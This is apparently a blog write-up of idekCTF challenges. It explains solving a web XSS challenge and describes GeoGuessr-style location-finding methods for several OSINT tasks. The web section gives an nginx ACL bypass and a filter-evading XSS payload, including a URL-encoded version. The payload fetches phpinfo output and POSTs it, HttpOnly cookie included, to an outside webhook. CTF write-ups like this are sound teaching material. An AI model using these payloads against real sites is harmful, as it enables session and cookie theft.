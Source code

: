 ```yaml
---
layout: post
title: idekCTF Web and OSINT Writeup
tags: [ctf, ctf writeup, ctf web, ctf misc, ctf osint, ctf geoguessr]
---
```


Notes on solving the web challenge and some GeoGuessr-style challenges (had a lot of luck).

## web/Hello

### Solution TLDR

- Bypass XSS characters filter
- Bypass nginx ACL rules for PHP

### Challenge and Solution

Relatively easy challenge, with 161 solves. I built the payload iteratively to bypass the restrictions.

My teammate solved and submitted the flag about 36 minutes before I did xD.

Challenge goal is to get the flag set by the admin bot in the "HttpOnly" cookie. The `index.php` page is XSS-able, and and `info.php` page dumps `phpinfo()`, which shows the cookies in the request, including HttpOnly cookies.

```nginx
location = /info.php {
    allow 127.0.0.1;
    deny all;
}

location ~ \.php$ {
    root           /usr/share/nginx/html;
    fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
    include fastcgi_params;  
    fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
}
```

However, as shown above, `nginx.conf` blocks access to `info.php`, and admin bot cannot acess it either. Referencing to [HackTricks](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass), it can be bypassed with `http://idek-hello.chal.idek.team:1337/info.php/a.php`, where nginx does not match to `location = /info.php`, instead it matches to `location ~ \.php$` and PHP FPM processes with `info.php`.

```php
function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}
```

`index.php` is XSS injectable, however it does not allow some characters. It was not able to have `</script>` closing tag, and I did not get `script` tag without closing tag or using `\` instead of `/` in the closing tag work. I used `<img>` tag with `onerror` to make the script to run (`src` attribute was necessary too).

The tag looks like this:

```html
<img src=a onerror="fetch('\\info.php\\a.php').then(r=>r.text()).then(r=>fetch('https:\\\\webhook.site\\[REDACTED]',{method:'POST',body:r}))">
```

The `/` in the URLs above are replaced with `\` to bypass the filter (`\\` because of escape. It was only escaped once in JavaScript, HTML does not use `/` escape), and it still works.

Replacing space `%20` with `%0C` to bypass filter, and the encoded payload for admin bot is below:

```
http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Csrc%3Da%0Conerror%3D%22fetch%28%27%5C%5Cinfo%2Ephp%5C%5Ca%2Ephp%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28r%3D%3Efetch%28%27https%3A%5C%5C%5C%5Cwebhook%2Esite%5C%5C%5BREDACTED%5D%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Ar%7D%29%29%22%3E%0A
```

## misc/NM~~PZ~~~ (GeoGuessr-style)

This is some notes on my process of solving some of the challenges with the team (also with a lot of luck involved). It may contain some errors due to limited knowledge on different locations, and just write about observations and knowledge gathered during solving the challenge.

*Image sizes are reduced in the blogpost.*

Some useful resources for GeoGuessr-style challenges:

1. [GeoHints](https://geohints.com/) Categorised by different meta or features, useful for example to look up which country the Google car in the task could be in.

2. [Plonk It](https://www.plonkit.net/guide) Text and image guides categorised by countries. Useful to confirm countries or try to region-guess. Google "site:www.plonkit.net stuff" as example in drunk_driving task below

3. [GeoTips](https://geotips.net/) Similiar to Plonk It

4. [overpass turbo](https://overpass-turbo.eu/) Powerful to query features

5. Many of the shared docs e.g. for country/region specific details

### drunk_driving (medium, Rwanda)

Saw lamppost with "NR 10 166" painted on it.

![Paint on the lamppost in the challenge](/assets/image/idekctf2024/rwanda-lamppost-paint.png)

We could not decide the country to start with through some meta information.

I Googled `site:www.plonkit.net nr`, and it linked to a GeoGuessr guide page on Rwanda. With the road number NR 10, teammate solved the task.

![Screenshot of the Google search result](/assets/image/idekctf2024/nr-google-search-result.png)

### beach_property (medium, Brazil)

Find the very unique-looking building, screenshot and search the image with Google Lens, find it to be the Veleiros Mar hotel in São Luís, Brazil. Then my teammate marked the location on the map to complete this task.

![Screenshot of Veleiros Mar hotel in the challenge](/assets/image/idekctf2024/veleiros-mar.png)

### idek_islands (medium, U.S. Virgin Islands)

Teammates identified through meta (Google car etc.) the location is in U.S. Virgin Islands, and likely to be in the island in the north. The location is by the coast, with coastline kinda concaves, and with buildings nearby. The shadows points inwards the land.

I started searching through the south coast of the two main islands in the north of U.S. Virgin Islands, by looking at the street view coverage finding the roads close to coast, and sometimes enter into street view to check. Eventually found a road with street view coverage near the coast, and the buildings in the satellite view looks matching the ones in the image. It did not take too long. Entered street view and confirmed the location matches.

### rise_above (hard, Indonesia)

It took a long time to solve this one.

Teammates identified the location in in Indonesia. There is top of a church in the image, signs on the other building saying "RUMAH KEPALA JAGA 1", and teammate also identified the "Indonesian Democratic Party of Struggle" flag in the image.

I position Google maps at Indonesia and looked up "rumah kepala jaga", it showed the name with other numbers but not "1". I looked through some of the locations however non of them was the location. They were mostly located east-most of Sulawesi Utara on one of the main island. There were also a village with many of the same flags in the image, however that village had a church looked different. Then I zoomed out the map a bit and looked up "church" in the area, and the 2nd church I clicked on and entered street view to see was the church I was looking for (extremely lucky I guess).
